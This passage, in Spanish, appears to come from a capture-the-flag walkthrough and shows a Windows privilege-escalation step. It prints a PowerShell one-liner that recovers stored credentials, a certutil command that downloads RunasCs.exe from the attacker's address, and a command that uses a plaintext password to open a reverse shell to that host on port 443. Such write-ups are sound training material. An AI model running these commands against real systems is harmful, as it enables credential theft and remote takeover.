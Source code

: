 Luego ejecutaremos los comandos para obtener la contraseña del usuario.

![20240311200332.png](20240311200332.png)

Luego de ejecutar obtenemos nuestra contraseña del usuario de la maquina.
También podemos ejecutar lo siguiente y deberíamos de obtener la credenciales

```python
PS C:\users\sfitz\documents> (Import-Clixml connection.xml).GetNetworkCredential() | fl
```

![20240311201400.png](20240311201400.png)

### Runas.exe

Ahora, luego de obtener las credenciales haremos uso de [runasCs](https://github.com/antonioCoco/RunasCs/releases/tag/v1.5) para obtener una shell, pero antes debemos de subir el binario de `runasCs.exe` con un servidor que podemos en Python3 y luego para descargar desde la maquina usaremos `certutil` 

```python
PS C:\users\sfitz> certutil -urlcache -split -f 'http://10.10.16.4/RunasCs.exe' RunasCs.exe
PS C:\users\sfitz> .\RunasCs.exe alaading f8gQ8fynP44ek1m3 cmd.exe -r 10.10.16.4:443
```

Luego ejecutaremos `runasCs.exe` indicando la IP y el puerto en donde recibiremos la Shell.

![20240311203447.png](20240311203447.png)
